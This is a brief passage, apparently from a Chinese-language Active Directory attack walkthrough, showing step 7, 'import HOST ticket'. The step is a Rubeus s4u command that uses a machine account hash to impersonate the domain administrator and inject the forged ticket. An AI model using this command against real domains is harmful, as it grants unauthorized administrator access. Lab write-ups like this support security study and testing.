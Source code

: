 [![](assets/1705982146-e9604bf3f75c2df6ff8b292a0455f35a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120224017-d44fe318-b7a1-1.png)  
Step 7：导入HOST票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:host/win7-test /ptt
```
